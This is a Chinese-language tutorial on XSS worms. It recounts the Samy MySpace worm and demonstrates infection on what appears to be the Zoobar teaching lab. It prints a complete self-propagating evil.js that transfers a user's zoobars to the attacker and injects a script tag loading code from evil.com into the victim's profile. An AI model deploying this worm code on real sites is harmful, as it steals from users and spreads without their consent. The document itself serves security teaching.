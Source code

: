 # XSS Worm

XSS蠕虫不仅可以攻击用户而且还可以大规模感染

---

## 历史上第一次XSS Worm

2005年10月4日，世界上第一只“Web 2.0蠕虫”诞生了。当时有人在国外著名社交网络MySpace上写了一段 JavaScript 蠕虫代码，利用 Ajax 方法让无数的用户在
毫不知情的情况下把作者加入了好友名单，同时在他们的个人简介里自动加上了 “samy is my hero” 的字样。

当时19岁的 Samy 是蠕虫编写者，编写蠕虫的原因是为了跟女友打赌他可以在 MySpace 上拥有众多的粉丝，可是又达不到要求，于是，他稍微研究了一下 MySpace的
安全性，并发现网站的个人简介处存在XSS漏洞。随后， Samy 在自己的个人简介中写入了一段 JavaScript 代码，每个查看他简介的人会在不知不觉中执行这段代码，
接着该蠕虫会打开受害者的个人简介，把恶意的 JavaScript 代码片段复制进去。同样，任何查看受害者个人简介的人也会被感染，藉此 Samy XSS Worm 在 MySpace
上疯散播，一天内就感染了超过100万用户。由于极其惊人的传播速度，最终导致 MySpace 服务器崩溃。

下面是 Samy 的截图：

![Firest XSS Worm](img/xss-worm-1.jpg)

可以看到有919664页用户的好友请求，这就是XSS Worm爆发的“战果”。

所谓的跨站脚本蠕虫（XSS Worm），实质上是一段脚本程序，通常用 JavaScript或 VbScript 写成，在用户浏览XSS页面的时被激活。蠕虫利用
站点页面的 XSS 漏洞根据其特定规则进行传播和感染。

值得注意的是，XSS蠕虫只是 Web 2.0 蠕虫的其中一种，也是最广为人知的一种，它利用网络的XSS漏洞进行散播。Web 2.0 蠕虫还有其他形式，如 CSRF Worm，
顾名思义，该类蠕虫是利用网站的 CSRF 漏洞进行攻击。

##XSS Worm攻击原理
 
XSS蠕虫通常使用了大量的 [Ajax](https://developer.mozilla.org/en/docs/AJAX) 技术。Ajax 的作用就在于：无须刷新即可异步传输数据，经过服务器
处理后，得到返回信息，再提示给用户。如此一来，使跨站蠕虫具有较强的传播性和隐蔽性，而且蔓延速度相当惊人，呈几何级发展。

一个完整的 XSS Worm的攻击流程如下。

1.  攻击者发现目标网站存在XSS漏洞，并且可以编写 XSS 蠕虫。
2.  利用宿主 （如博客空间） 作为传播源头进行 XSS 攻击。
3.  当其他用户访问被感染的空间时，XSS 蠕虫就继续感染。

##XSS Worm 感染演示

首先，作为宿主本身要作为源头进行XSS攻击。用户名为 wang,Balance为 20 zoobars。
每个注册用户都会默认分配10个 zoobars，用户可以将其自由转移给其他人。

![XSS Worm code](img/xss-worm-2.png)

我们在Profile里面写入了恶意代码，只要别人查看就会被感染，接下来让我们注册个新用户 worm1:

![XSS Worm1](img/xss-worm-3.png)

可以看到默认拥有10个zoobars，并且profile为空的。接下来让我们查看一下宿主用户wang：

![XSS Worm1 view](img/xss-worm-4.png)

这时查看到了wang的Balance为 20 zoobars，同时恶意代码得到了执行，让我们查看 worm1的profile：

![XSS Worm1 attack](img/xss-worm-5.png)

可以发现 worm1用户的profile已经被感染，同时zoobars也被偷取了一个。返回查看可以发现wang的zoobars添加了一个。

##XSS Worm攻击代码分析

下面是 evil.js的代码内容：

		var http = new XMLHttpRequest();
		http.open("POST", "http://myzoo.com/transfer.php", true);
		http.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8");
		http.send("zoobars=1&recipient=wang&submission=Send");
		var http = new XMLHttpRequest();
		http.open("POST", "http://myzoo.com/index.php", true);
		http.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8");
		var data="profile_update=%3Cscript%3E%0D%0A+%0D%0A+var+script+%3Ddocument.createElement%28%22script%22%29%3B%0D%0A+script.setAttribute%28%22src%22%2C%22http%3A%2F%2Fevil.com%2Fevil.js%22%29%3B%0D%0A+document.body.appendChild%28script%29%3B%0D%0A%3C%2Fscript%3E&profile_submit=Save";
		http.send(data);

代码本质上就是模拟用户请求发送转移zoobars的合法请求，然后修改用户的Profile，使得用户也被感染恶意代码。

##参考

[Cross-Site Scripting Worms & Viruses](https://www.whitehatsec.com/assets/WP5CSS0607.pdf)

[Technical explanation of The MySpace Worm](http://namb.la/popular/tech.html)